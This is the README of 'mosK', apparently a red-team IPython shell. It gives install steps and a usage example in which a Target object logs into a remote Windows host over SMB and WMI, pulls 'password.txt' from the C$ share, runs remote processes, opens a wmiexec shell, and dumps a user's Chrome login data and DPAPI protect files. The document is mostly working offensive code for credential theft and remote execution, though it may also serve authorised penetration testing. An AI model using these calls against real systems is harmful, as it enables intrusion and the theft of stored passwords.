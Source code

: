 # mosK 🦅
the red team `IPython` shell 🧑‍💻

## installation
```bash
git clone https://github.com/idobarel/mosK.git # download the git repo
# run it using
python3 mosK/mosK
```
## why IPython?
It is just better. the fact you can run in a pythonic env allows you to: 
- run more complete logic on you products
- create automation and scripts
- develop more crazy stuff (without breaking you head)
- have it all in one


## usage
as it is for now, there are few utils the `mosK` provides:
### `Target` class:
the target object can be used to access remote computers `SMB` (for file manipulation) or `WMI` (for RCE or WQL).
the target class is easy to use and it is the base for all the other utils.
### `Chrome` class:
allows you to take a target and dump all the chrome `Login Data` files of a specific user.
### `DPAPI` class:
allows you to get all the dpapi protect files of a user, for `home-side` decryption of data.
### `ExecWMI` class:
gives you the features of `impackets wmiexec`!


## example usage
this should cover most of the usage, feel free the explorer throgh the shell!
```python
# target init
target = Target("test:test@192.168.1.13")

# login one by one
target.smb.login()
target.wmi.login()
# OR
# login both at once
target.login_all()


# shares or files manipulation (SMB must be logged in!)
target.smb.list_shares() # get a list of shares
target.smb.use_share("C$") # use the share `C$`
target.smb.list_path("\\Windows\\Temp\\") # to list the C:\Windows\Temp path
target.smb.download_file("\\Admin Folder\\password.txt") # save remote file to `password.txt`
# upload `lol.txt` to remote target
target.smb.upload_file("./lol.txt", "\\Users\\test\\Desktop\\lol.txt")

# RCE + WQL (WMI must be logged in!)
target.wmi.create_process("netstat.exe -an") # run netstat (no output)
target.wmi.query("select name,processid from Win32_Process") # get a tasklist using WQL


# executor (wmiexec)
wmiexec = ExecWMI(target)
wmiexec.shell() # start a shell
wmiexec.execute("whoami") # run a single command (with output)

# dpapi
dpapi = DPAPI(target)
dpapi.get_protect_files("test") # dump all the protect files of `test`

# chrome
chrome = Chrome(target)
chrome.dump("test") # dump all the chrome files of `test`


target # to see the running connections
target.clear() # close the connections
```

To exit the console and close all the connections, you can hit `CTRL+D` 🧮
